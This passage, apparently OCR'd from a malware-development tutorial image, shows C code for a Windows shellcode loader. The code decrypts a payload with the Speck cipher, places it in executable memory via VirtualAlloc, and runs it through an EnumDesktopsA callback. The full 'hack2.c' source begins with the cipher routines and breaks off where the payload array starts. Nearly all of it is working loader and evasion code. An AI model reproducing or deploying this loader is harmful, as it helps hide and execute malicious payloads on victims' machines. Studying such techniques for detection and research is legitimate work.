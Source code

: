 ```cpp
printf("decrypted: \n");
for (int i = 0; i < payload_len; i++) {
  printf("%02x ", payload[i]);
  if ((i + 1) % 16 == 0) printf("\n");
}

LPVOID mem = VirtualAlloc(NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
memcpy(mem, payload, payload_len);
EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);
```

The full source code for this example is looks like this `hack2.c`:    

```cpp
/*
* hack2.c
* encrypt/decrypt payload via Speck
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2025/05/29/malware-cryptography-42.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <windows.h>

#define ROUNDS 27
#define BLOCK_SIZE 16

uint64_t key[2] = {0x1918111009080100, 0x1110980801000908};
uint64_t round_keys[ROUNDS];

uint64_t rol(uint64_t x, int r) {
  return (x << r) | (x >> (64 - r));
}

uint64_t ror(uint64_t x, int r) {
  return (x >> r) | (x << (64 - r));
}

void speck_key_schedule() {
  round_keys[0] = key[0];
  uint64_t b = key[1];
  for (int i = 0; i < ROUNDS - 1; i++) {
    b = (ror(b, 8) + round_keys[i]) ^ i;
    round_keys[i + 1] = rol(round_keys[i], 3) ^ b;
  }
}

void speck_encrypt(uint64_t* x, uint64_t* y) {
  for (int i = 0; i < ROUNDS; i++) {
    *x = (ror(*x, 8) + *y) ^ round_keys[i];
    *y = rol(*y, 3) ^ *x;
  }
}

void speck_decrypt(uint64_t* x, uint64_t* y) {
  for (int i = ROUNDS - 1; i >= 0; i--) {
    *y = ror(*y ^ *x, 3);
    *x = rol((*x ^ round_keys[i]) - *y, 8);
  }
}

int main() {
  unsigned char payload[] = {
```